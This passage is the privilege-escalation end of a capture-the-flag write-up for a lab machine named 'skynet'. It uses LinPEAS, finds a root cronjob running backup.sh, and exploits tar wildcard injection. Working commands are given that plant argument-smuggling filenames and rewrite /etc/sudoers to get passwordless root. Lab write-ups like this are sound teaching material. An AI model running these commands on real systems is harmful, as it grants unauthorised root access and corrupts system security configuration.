 After spending some time trying to decrypt that hash, i found myself into a rabbit hole. 

I uploaded [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), and i actually found a way to escalate privliges:

```sh
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

There is a cronjob running the `backup.sh`, if you check that file, you'll see that we can exploit the `Tar WildCard`, Here's a [writeup](https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e) explaining in details

Executing these commands will get you to `root`:

```sh
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > rev.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh rev.sh"
echo "/var/www/html"  > --checkpoint=1
```
If we check after a minute, we'll see that `www-data` can run sudo with no password:
```sh
www-data@skynet:/var/www/html$ sudo -l
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
www-data@skynet:/var/www/html$ sudo su
root@skynet:/var/www/html# id 
uid=0(root) gid=0(root) groups=0(root)
root@skynet:/var/www/html#
```


<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n)

<br>
<br>

